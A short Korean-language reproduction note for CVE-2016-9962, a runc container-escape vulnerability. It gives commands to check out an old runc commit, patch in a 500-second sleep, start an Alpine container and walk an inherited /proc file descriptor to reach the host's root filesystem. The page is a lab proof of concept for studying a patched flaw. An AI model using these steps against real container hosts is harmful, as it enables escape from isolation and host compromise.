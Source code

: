 +++
title  = "CVE-2016-9962"
toc    = true
weight = 0
+++

## CVE-2016-9962
reproduction step described at [here](http://blog.aquasec.com/cve-2016-9962-run-container-run?utm_campaign=General+website&utm_source=hs_email&utm_medium=email&utm_content=40788539&_hsenc=p2ANqtz-9bJB-5FMxtRupfFhdHc-5UIe4XTZ1aBfq-2vE_ecMgY8Ud681CniwE-R3wDJ8sfClDxW0tj77e-hr6GIinbqBMFo0omg&_hsmi=40788539)

```bash
$ cd $GOPATH/src/github.com
$ git clone https://github.com/opencontainers/runc opencontainers/runc
$ git fetch origin 2cc5a91249ab3b362f1235da955d112017979d34
$ git checkout origin 2cc5a91249ab3b362f1235da955d112017979d34
$ vi $GOPATH/src/github.com/opencontainers/runc/libcontainer/setns_init_linux.go
```

아래 2개 line을 수정한다.
```diff
package libcontainer

import (
  "fmt"
  "os"

  "github.com/opencontainers/runc/libcontainer/apparmor"
  "github.com/opencontainers/runc/libcontainer/keys"
  "github.com/opencontainers/runc/libcontainer/label"
  "github.com/opencontainers/runc/libcontainer/seccomp"
  "github.com/opencontainers/runc/libcontainer/system"
+ "time"
)
```
```diff
  if err := label.SetProcessLabel(l.config.ProcessLabel); err != nil {
    return err
  }

+ time.Sleep(500 * time.Second)
  return system.Execv(l.config.Args[0], l.config.Args[0:], os.Environ())
}
```
container를 생성한다.
```bash
sh1$ docker pull alpine
sh1$ docker create --name alpine alpine
sh1$ mkdir rootfs
sh1$ docker export alpine | tar xvfC - rootfs/
sh1$ runc spec
sh1$ runc run ctr
```
terminal을 새로 열고 container 내부에 process를 생성한다.
```bash
sh2$ runc exec ctr sh
```
여기서 500 초가량 block된다.
다시 첫번째 terimnal로 돌아간다.
```bash
sh1$ ps aux
sh1$ ls /proc/18/fd -la
sh1$ ls -la /proc/18/fd/4/../../..
```
위와 같은 방식으로 Host의 rootfs에 접근이 가능하다.

